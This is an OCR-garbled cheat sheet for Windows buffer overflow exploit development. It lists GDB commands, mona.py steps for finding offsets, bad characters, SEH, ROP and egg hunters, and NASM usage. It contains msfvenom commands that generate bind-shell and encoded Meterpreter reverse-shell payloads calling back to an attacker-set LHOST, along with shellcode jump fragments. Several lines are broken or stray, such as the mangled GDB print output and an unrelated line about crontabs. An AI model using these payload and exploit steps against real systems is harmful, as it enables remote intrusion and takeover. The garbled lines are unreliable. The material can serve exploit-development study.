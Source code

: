# BOF
    - —————————————————————————————————
## GDB Debugger Commands
        - # Setting Breakpoint break *_start
        - # Execute Next Instruction next
        - step
        - n
        - s
        - # Continue Execution continue
        - c
        - # Data
        - checking 'REGISTERS' and 'MEMORY'
        - # Display Register Values: (Decimal,Binary,Hex)
        - print print print O/P : (gdb) $17 = (gdb) $18 = (gdb) $19 = (gdb)
        - /d –> Decimal /t –> Binary /x –> Hex
        - print /d $eax 13
        - print /t $eax 1101
        - print /x $eax 0xd
        - # Display values of
        - command : x/nyz (Examine)
        - n –> Number of fields to display ==>
        - y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
        - z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
## Win Buffer Overflow Exploit Commands
        - msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
        - msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c
        - crontabs for all users including AD
        - COMMONLY USED BAD CHARACTERS: \x00\x0a\x0d\x20 \x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c
        - For http request Ending with (0\n\r_)
        - # Useful Commands:
        - pattern create
        - pattern offset (EIP Address)
        - pattern offset (ESP Address)
        - add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )
        - !pvefindaddr pattern_create 5000 !pvefindaddr suggest !pvefindaddr modules !pvefindaddr nosafeseh
        - !mona config -set workingfolder C:\Mona\%p !mona config -get workingfolder
        - !mona mod
        - !mona bytearray -b "\x00\x0a"
        - !mona pc 5000 !mona po EIP !mona suggest
## SEH - Structured Exception Handling
        - # https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH !mona suggest
        - !mona nosafeseh
        - nseh="\xeb\x06\x90\x90" (next seh chain)
        - iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)
## ROP (DEP)
        - # https://en.wikipedia.org/wiki/Return-oriented_programming # https://en.wikipedia.org/wiki/Data_Execution_Prevention !mona modules
        - !mona ropfunc -m *.dll -cpb "\x00\x09\x0a"
        - !mona rop -m *.dll -cpb "\x00\x09\x0a" (auto suggest)
## ASLR - Address space layout randomization
        - # https://en.wikipedia.org/wiki/Address_space_layout_randomization !mona noaslr
## EGG Hunter techniques
        - # https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/ # http://www.fuzzysecurity.com/tutorials/expDev/4.html
        - !mona jmp -r esp
        - !mona egg -t lxxl
        - \xeb\xc4 (jump backward -60) buff=lxxllxxl+shell
        - !mona egg -t 'w00t'
## NASM Commands
        - nasm -f bin -o payload.bin payload.asm
        - nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
